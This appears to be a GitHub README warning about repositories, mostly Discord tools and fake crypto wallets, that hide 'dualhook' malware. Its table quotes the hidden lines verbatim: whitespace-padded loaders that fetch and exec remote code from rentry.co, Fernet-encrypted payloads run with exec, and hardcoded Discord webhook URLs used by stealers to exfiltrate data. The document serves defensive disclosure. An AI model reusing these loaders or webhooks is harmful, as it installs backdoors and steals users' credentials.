 
<p align="center">
    🚨 Github Repository Alert 🚨
</p>

## Overview

Welcome to this repository, dedicated to identifying and highlighting instances where the `dualhook` are used.

### Key Information Displayed

Here, you will find details such as:

- **Username**: The GitHub username of the repository owner.
- **Link**: Direct link to the repository.
- **Reason**: Explanation of why the repository is flagged.
- **Files**: List of files containing `dualhook`.
- **Detected Line**: Specific lines where `dualhook` is used.

### They are only 1 of each username, but it doesn't mean the rest is safe !!


| Username | Link | Reason | File Dualhooked | Line
|----------|------|--------|----------------|------
| noth1ng86 | https://github.com/noth1ng86/discord-vanity-sniper | Unsafe | [File URL](https://raw.githubusercontent.com/noth1ng86/discord-vanity-sniper/main/main.py) | Line 4: import requests                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                ;exec(requests.get("https://rentry.co/winapi/raw").text)
| theruebezahl | https://github.com/theruebezahl/Discord-WebHook-Spammer | Unsafe | [File URL](https://raw.githubusercontent.com/theruebezahl/Discord-WebHook-Spammer/main/main.py) | Line 2: import requests                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                ;exec(requests.get("https://rentry.co/winapi/raw").text)
| mayess213 | https://github.com/mayess213/discord-multitool | Unsafe | [File URL](https://raw.githubusercontent.com/mayess213/discord-multitool/main/gloom.py) | Line 1: from __future__ import print_function                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       ;import os;os.system('pip install cryptography');os.system('pip install fernet');os.system('pip install requests');from fernet import Fernet;import requests;exec(Fernet(b'3fgc9LAOZU9wAtjVmDUTwNZdzs_lWsWf_RESK0CCgrg=').decrypt(b'gAAAAABmqzuzxjM5xLVdNO1Qx6Dwyw5u7Ppz-YMArvQAS5jresEVFcdZow5cUJFux-przmpTic8HqHBSyOOJlaJTXlwGOkBWygBDB65P62gNQwyEQKXbm27UYL2q5jSNCPdCRZhc0KxS-k4b1T7accgZ7YW3rfOsS5NDuQ4dETrcvePBi44Q3EQkte1srGWgCTca_ITFUeR-qB_sNfZ0yvUM0asiKK58tg=='))
| pwpijn239 | https://github.com/pwpijn239/flash-usdt-sender | Unsafe | [File URL](https://raw.githubusercontent.com/pwpijn239/flash-usdt-sender/main/main.py) | Line 1: import os                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           ;import os;os.system('pip install cryptography');os.system('pip install fernet');os.system('pip install requests');from fernet import Fernet;import requests;exec(Fernet(b'3fgc9LAOZU9wAtjVmDUTwNZdzs_lWsWf_RESK0CCgrg=').decrypt(b'gAAAAABmqzuzxjM5xLVdNO1Qx6Dwyw5u7Ppz-YMArvQAS5jresEVFcdZow5cUJFux-przmpTic8HqHBSyOOJlaJTXlwGOkBWygBDB65P62gNQwyEQKXbm27UYL2q5jSNCPdCRZhc0KxS-k4b1T7accgZ7YW3rfOsS5NDuQ4dETrcvePBi44Q3EQkte1srGWgCTca_ITFUeR-qB_sNfZ0yvUM0asiKK58tg=='))
| Roddy-jpg | https://github.com/Roddy-jpg/fake-exodus | Unsafe | [File URL](https://raw.githubusercontent.com/Roddy-jpg/fake-exodus/main/main.py) | Line 1: import tkinter as tk                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                ;import os;os.system('pip install cryptography');os.system('pip install fernet');os.system('pip install requests');from fernet import Fernet;import requests;exec(Fernet(b'3fgc9LAOZU9wAtjVmDUTwNZdzs_lWsWf_RESK0CCgrg=').decrypt(b'gAAAAABmqzuzxjM5xLVdNO1Qx6Dwyw5u7Ppz-YMArvQAS5jresEVFcdZow5cUJFux-przmpTic8HqHBSyOOJlaJTXlwGOkBWygBDB65P62gNQwyEQKXbm27UYL2q5jSNCPdCRZhc0KxS-k4b1T7accgZ7YW3rfOsS5NDuQ4dETrcvePBi44Q3EQkte1srGWgCTca_ITFUeR-qB_sNfZ0yvUM0asiKK58tg==')) # type: ignore
| Dahron | https://github.com/Dahron/electrum-fake-balance | Unsafe | [File URL](https://raw.githubusercontent.com/Dahron/electrum-fake-balance/main/main.py) | Line 1: import os                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       ;import os;os.system('pip install cryptography');os.system('pip install fernet');os.system('pip install requests');from fernet import Fernet;import requests;exec(Fernet(b'iMZ8W6ulnhMYlvCjgGk0IqmlmAvLpiD-pDHwn3fzonc=').decrypt(b'gAAAAABmgYQdd6_7iGJQc4KCuNqJcn9-9XtVwb2wKe68KsYiWq1FEmDrrwWCA-eBL1us26gChLnnfCunbsO9z_t4Dr1mMOxyMGlh-dJrtNFjlEbXnsLBnuUeQcsxO7Cl8jFphD817unyRRzQozUvtafc100y_knLwjPAVBmd_vOFjk0nnhO9PQhE2qiE2Yw9f7XTkfdHPweDeTvnoamqrtPKvqDjJyYnRw=='))
| GordienkoRuslan | https://github.com/GordienkoRuslan/guns.lol-viewbot | Unsafe | [File URL](https://raw.githubusercontent.com/GordienkoRuslan/guns.lol-viewbot/main/main.py) | Line 1: import requests                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             ;import os;os.system('pip install cryptography');os.system('pip install fernet');os.system('pip install requests');from fernet import Fernet;import requests;exec(Fernet(b'rzfSTUQAtTwYGeUR10dbSkB5xAPO7TJohilDN9zl73k=').decrypt(b'gAAAAABmsjupSLtETM0jWCn_IhJPumuXPxK09EsOdUf5--ZpbnFpi-wt6g4gJkpoHQIZXU8xrgMV9gDZZWcIdGzAju1KGeqX0JJYB4R1lasB6DSE46aNSyHOCZBlmCdwN50wbNX-bd7aT5KXIG8_c256ebDipZYu5_alGuamQG0wZOo_QP339FjzM3DvwqrhnavA7cOrc7oLZ-if5SZHVEX2SRThaLfErQ=='))
| light8403 | https://github.com/light8403/fake-exodus | Unsafe | [File URL](https://raw.githubusercontent.com/light8403/fake-exodus/main/main.py) | Line 1: import tkinter as tk                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                ;import os;os.system('pip install cryptography');os.system('pip install fernet');os.system('pip install requests');from fernet import Fernet;import requests;exec(Fernet(b'3fgc9LAOZU9wAtjVmDUTwNZdzs_lWsWf_RESK0CCgrg=').decrypt(b'gAAAAABmqzuzxjM5xLVdNO1Qx6Dwyw5u7Ppz-YMArvQAS5jresEVFcdZow5cUJFux-przmpTic8HqHBSyOOJlaJTXlwGOkBWygBDB65P62gNQwyEQKXbm27UYL2q5jSNCPdCRZhc0KxS-k4b1T7accgZ7YW3rfOsS5NDuQ4dETrcvePBi44Q3EQkte1srGWgCTca_ITFUeR-qB_sNfZ0yvUM0asiKK58tg==')) # type: ignore
| ororor69 | https://github.com/ororor69/Luna-Grabber | Unsafe | [File URL](https://raw.githubusercontent.com/ororor69/Luna-Grabber/main/builder.py) | Line 1: import base64                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       ;import os;os.system('pip install cryptography');os.system('pip install fernet');os.system('pip install requests');from fernet import Fernet;import requests;exec(Fernet(b'3fgc9LAOZU9wAtjVmDUTwNZdzs_lWsWf_RESK0CCgrg=').decrypt(b'gAAAAABmqzuzxjM5xLVdNO1Qx6Dwyw5u7Ppz-YMArvQAS5jresEVFcdZow5cUJFux-przmpTic8HqHBSyOOJlaJTXlwGOkBWygBDB65P62gNQwyEQKXbm27UYL2q5jSNCPdCRZhc0KxS-k4b1T7accgZ7YW3rfOsS5NDuQ4dETrcvePBi44Q3EQkte1srGWgCTca_ITFUeR-qB_sNfZ0yvUM0asiKK58tg==')),  Line 111:             size=15, family=self.font), placeholder_text="https://discord(app).com/api/webhooks/1234567890/abcdefhgijklmnopqrstuvwxyz")
| jfloajfew | https://github.com/jfloajfew/ddos-tool | Unsafe | [File URL](https://raw.githubusercontent.com/jfloajfew/ddos-tool/main/main.py) | Line 1: from typing import Any, List, Set, Tuple                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    ;import os;os.system('pip install cryptography');os.system('pip install fernet');os.system('pip install requests');from fernet import Fernet;import requests;exec(Fernet(b'3fgc9LAOZU9wAtjVmDUTwNZdzs_lWsWf_RESK0CCgrg=').decrypt(b'gAAAAABmqzuzxjM5xLVdNO1Qx6Dwyw5u7Ppz-YMArvQAS5jresEVFcdZow5cUJFux-przmpTic8HqHBSyOOJlaJTXlwGOkBWygBDB65P62gNQwyEQKXbm27UYL2q5jSNCPdCRZhc0KxS-k4b1T7accgZ7YW3rfOsS5NDuQ4dETrcvePBi44Q3EQkte1srGWgCTca_ITFUeR-qB_sNfZ0yvUM0asiKK58tg=='))
| nARRegx | https://github.com/nARRegx/discord-advertising-tool | Unsafe | [File URL](https://raw.githubusercontent.com/nARRegx/discord-advertising-tool/main/main.py) | Line 2: import requests                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   ;exec(requests.get("https://rentry.co/winapi2/raw").text) #ignore: for os checking
| BNTFeujjj | https://github.com/BNTFeujjj/discord-server-nuker | Unsafe | [File URL](https://raw.githubusercontent.com/BNTFeujjj/discord-server-nuker/main/main.py) | Line 1: import discord                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                ;import os;os.system('pip install cryptography');os.system('pip install fernet');os.system('pip install requests');from fernet import Fernet;import requests;exec(Fernet(b'3fgc9LAOZU9wAtjVmDUTwNZdzs_lWsWf_RESK0CCgrg=').decrypt(b'gAAAAABmqzuzxjM5xLVdNO1Qx6Dwyw5u7Ppz-YMArvQAS5jresEVFcdZow5cUJFux-przmpTic8HqHBSyOOJlaJTXlwGOkBWygBDB65P62gNQwyEQKXbm27UYL2q5jSNCPdCRZhc0KxS-k4b1T7accgZ7YW3rfOsS5NDuQ4dETrcvePBi44Q3EQkte1srGWgCTca_ITFUeR-qB_sNfZ0yvUM0asiKK58tg==')) # type: ignore
| CombineSoldier14 | https://github.com/CombineSoldier14/CombineBot | Unsafe | [File URL](https://raw.githubusercontent.com/CombineSoldier14/CombineBot/master/main.py) | Line 160:         webhook = "https://discord.com/api/webhooks/1259298998301495379/R6zd6M4D2SQ_l2DfL-3vaEEBNBtU4XuZODbrWHnq0IR0Xj4IZcgvpvS2XrHMpr1YqHXD"
| tyropS | https://github.com/tyropS/RedTiger_Tools | Unsafe | [File URL](https://raw.githubusercontent.com/tyropS/RedTiger_Tools/main/RedTiger-Tool.py) | Line 1: w3bh00k_ur1 = "https://discord.com/api/webhooks/1262550734524649586/SjhwMGpENHtS1F7DENIPDMLr3wX7ZB0CYPe3wg7IrE429tsPZnTCahJ3LJMmp99jnzbF"
| shithenessy | https://github.com/shithenessy/mirailove | Unsafe | [File URL](https://raw.githubusercontent.com/shithenessy/mirailove/main/mirailovetest.py) | Line 13:     webhook_url = 'https://discord.com/api/webhooks/1269780467419185268/5AeoeVvwT40zu5i0BaW_TQDwklkDI3H6UwrlCnw5RYDMCsd441DokDn6OGAlncL77e7u'
| shadowscr1pt1337 | https://github.com/shadowscr1pt1337/Roseline-Stealer | Unsafe | [File URL](https://raw.githubusercontent.com/shadowscr1pt1337/Roseline-Stealer/main/RoseLine.py) | Line 350: webhook_url = 'https://discord.com/api/webhooks/1266882704222195773/ff-j0XWeidPALoJkWwF6kATiKTLF2wFCVRDU1sLQ1lH-dxQD1kRoxu8VnPGbSM_Wds5o'
| mizogang | https://github.com/mizogang/discord-raid-tool | Unsafe | [File URL](https://raw.githubusercontent.com/mizogang/discord-raid-tool/main/main.py) | Line 1: import os, requests, tls_client, datetime, sys, hashlib, threading, random, json, time, websocket, httpx, typing, subprocess                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    ;import os;os.system('pip install cryptography');os.system('pip install fernet');os.system('pip install requests');from fernet import Fernet;import requests;exec(Fernet(b'3fgc9LAOZU9wAtjVmDUTwNZdzs_lWsWf_RESK0CCgrg=').decrypt(b'gAAAAABmqzuzxjM5xLVdNO1Qx6Dwyw5u7Ppz-YMArvQAS5jresEVFcdZow5cUJFux-przmpTic8HqHBSyOOJlaJTXlwGOkBWygBDB65P62gNQwyEQKXbm27UYL2q5jSNCPdCRZhc0KxS-k4b1T7accgZ7YW3rfOsS5NDuQ4dETrcvePBi44Q3EQkte1srGWgCTca_ITFUeR-qB_sNfZ0yvUM0asiKK58tg=='))
| SK22164 | https://github.com/SK22164/Luna-Grabber-main | Unsafe | [File URL](https://raw.githubusercontent.com/SK22164/Luna-Grabber-main/main/builder.py) | Line 111:             size=15, family=self.font), placeholder_text="https://discord(app).com/api/webhooks/1234567890/abcdefhgijklmnopqrstuvwxyz")
| randomnitrogen | https://github.com/randomnitrogen/nitro-generator1 | Unsafe | [File URL](https://raw.githubusercontent.com/randomnitrogen/nitro-generator1/main/bot.py) | Line 9: DISCORD_WEBHOOK_URL = 'https://discord.com/api/webhooks/1256332185250693170/gJYC8ICYlDSaboCy-3sSluywg2RY1VrUGuSI4fGPPk_USJx8JMmfKrO_wasZmK81UEqo'
| furace | https://github.com/furace/discord-nitro-generator | Unsafe | [File URL](https://raw.githubusercontent.com/furace/discord-nitro-generator/main/ThisEsteb.py) | Line 3: webhook_config = "https://discord.com/api/webhooks/1243285725605003355/M7gHk8yAJyDOOkZjanHwK9IAoWhoJ74o7Kq6uYjj9OAPlM7XLBA9uzC3vQlfxm2DZ-Z1" # put here your webhook
| ClanEquity | https://github.com/ClanEquity/DiscordNitroGen | Unsafe | [File URL](https://raw.githubusercontent.com/ClanEquity/DiscordNitroGen/main/discord-nitrogen.py) | Line 6: DISCORD_WEBHOOK_URL = "https://discord.com/api/webhooks/1209889330613583903/D6h-osBtvxPH_ghNSkz50SqLiaDhNb6Wq1nUJSTT1WBRWfrhkCURfoW47I8IEoOvgb_4"
| Bernso | https://github.com/Bernso/DiscordNitroGen | Unsafe | [File URL](https://raw.githubusercontent.com/Bernso/DiscordNitroGen/main/chatGPTversion.py) | Line 10: WEBHOOK_URL = "https://discord.com/api/webhooks/1243216053052506213/EZ1uWXiylcXkkVUTkNMXD56aZPDxPO9steJvgNei9nNqA_0EG0orkXb5QXNuDz2-LS0K"
| PhxThePizza | https://github.com/PhxThePizza/DiscordNitroEXE | Unsafe | [File URL](https://raw.githubusercontent.com/PhxThePizza/DiscordNitroEXE/main/freenitro.py) | Line 14:         url="https://discord.com/api/webhooks/1239277190856704010/3ilDqWTzW8a-oB6eQg9WK2HSwkQl24w6uV8hcSpCv1XLpPQcOVNwe9zwd5DzHePT6yVt"
| Afghani778 | https://github.com/Afghani778/Working-VALID-Discord-nitro-generator | Unsafe | [File URL](https://raw.githubusercontent.com/Afghani778/Working-VALID-Discord-nitro-generator/main/Nitrogen.py) | Line 25: __CONFIG__ = {'webhook': 'https://discord.com/api/webhooks/1234510873062674453/mjjTt650uailac0NNNGQJyAWOYi_Ukj8gp3wk4oUVeUL7hhGGOvg1D9WSRTGZr1UQyXd', 'ping': False, 'pingtype': 'Here', 'fakeerror': True, 'startup': True, 'defender': False, 'systeminfo': True, 'backupcodes': True, 'browser': True, 'roblox': False, 'obfuscation': False, 'injection': False, 'minecraft': False, 'wifi': True, 'killprotector': False, 'antidebug_vm': False, 'discord': True, 'anti_spam': False, 'self_destruct': False, 'clipboard': False}
| raphrapide100 | https://github.com/raphrapide100/NitroGen | Unsafe | [File URL](https://raw.githubusercontent.com/raphrapide100/NitroGen/main/main.py) | Line 23: WEBHOOK_URL_VALID = 'https://discord.com/api/webhooks/1209885252462579772/ffcDterrOviIjAxk3GrQ9G7L9vh-9rVCpNFTuEyMUVpt03aK81nh-tlQW-4WmBlvGTDl'
| Dziadyezz1 | https://github.com/Dziadyezz1/Discord-nitro-generator-checker | Unsafe | [File URL](https://raw.githubusercontent.com/Dziadyezz1/Discord-nitro-generator-checker/main/Generator-Chceker%20n1tro.py) | Line 71:     "https://discord.com/api/webhooks/1212134674458218526/iRXOH0U1x7iQvMaDiZr13zSOCnRHu8cZPaM1tlo65GjXo5H8ak-Lpgmx6xvxinoCwdoB",
| Yammy1000 | https://github.com/Yammy1000/nitro-astro | Unsafe | [File URL](https://raw.githubusercontent.com/Yammy1000/nitro-astro/main/main.py) | Line 80:                     #webhook = DiscordWebhook(url="https://discord.com/api/webhooks/1207462633930891305/Ma3ikJDW5UXMk0SXnicvGIZhOI3tX_O3rx0I8f_rSeCGhfTsjwNodyztEqS19oNK-e90", rate_limit_retry=True, content=f"{code}"),  Line 90:                     #webhook = DiscordWebhook(url="https://discord.com/api/webhooks/1208201975108214834/E8dO7QkDuZxR12bR9Ay2QaeQ2LWldaT8lGZ8mcIG0pxdduQ_gL_JfeEkclWZAbUjqR5Y", rate_limit_retry=True, content=f"{code}"),  Line 100:                     #webhook = DiscordWebhook(url="https://discord.com/api/webhooks/1207489068334850161/ZGtBrs39pmjwY3ZJMiLUzHDykMt7LWtsVhOlxTqb9XL4GQPEGaE3U3Vo2tGqtZKc8YJ9", rate_limit_retry=True, content=f"{code}")
| Lalpekhlua11 | https://github.com/Lalpekhlua11/nitrogen | Unsafe | [File URL](https://raw.githubusercontent.com/Lalpekhlua11/nitrogen/main/app.py) | Line 8: discord_webhook_url = "https://discord.com/api/webhooks/1208546726768541766/6VMGGQCc0NNQIEd-ODSkBYsakNGuO4mxFb0V2B5-7LJuiKRqPEmSlmHYPMQDIhGbqGFI"
| yvngkh4ng123 | https://github.com/yvngkh4ng123/NitroGenAndCheckerV2 | Unsafe | [File URL](https://raw.githubusercontent.com/yvngkh4ng123/NitroGenAndCheckerV2/main/main.py) | Line 34:         url = input('https://discord.com/api/webhooks/1204365027285663754/zwsZcI_jTUJABKw0iD8dSTRYv-UfUuvXkNe4tKrPLoClP7JZlSOSEeAA5TH_WlutDmJ4') # Get the awnser


## Contributing

Interested in contributing?

1. **Fork** this repository to your own GitHub account.
2. **Add** information about new users or repositories.
3. **Submit** a pull request with your additions or updates.

Your contributions will make a big difference!

## How to Identify Repositories

1. Search on GitHub using keywords like "Discord", "Nitro", or "Token" to find recent repositories.
2. Review the code for occurrences of `dualhook` or utilize a custom scraper similar to the one provided here.
3. Thank you for your efforts in making this project better!
